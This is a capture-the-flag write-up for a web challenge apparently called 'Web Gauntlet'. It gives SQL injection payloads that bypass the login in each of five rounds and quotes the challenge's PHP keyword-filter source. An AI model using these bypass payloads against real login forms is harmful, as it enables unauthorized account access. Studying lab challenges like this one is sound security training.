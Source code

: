 There is another page that tells us the filters applied in `filters.php`:

![](assets/ctf_web_gauntlet_filter_page.png)

There are 5 rounds. Password is always `123`. Payload will be inside username.

Round 1:
- filters: or
- payload: `admin'/*` 
Round 2:
- filters: or and like = --
- payload: `admin'/*` 
Round 3:
- filters: or and = like > < --
- payload: `admin'/*` 
Round 4:
- filters: or and = like > < -- admin
- payload: `ad'||'min';` 
- Here the previous payload stops working because the word `admin` is filtered. So let me introduce you to the statements terminator operator `;`.
Round 5:
- filters:  or and = like > < -- union admin
- payload: `ad'||'min';` 

When all 5 rounds are done. Go to the `filter.php` page, the flag is in there.

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
```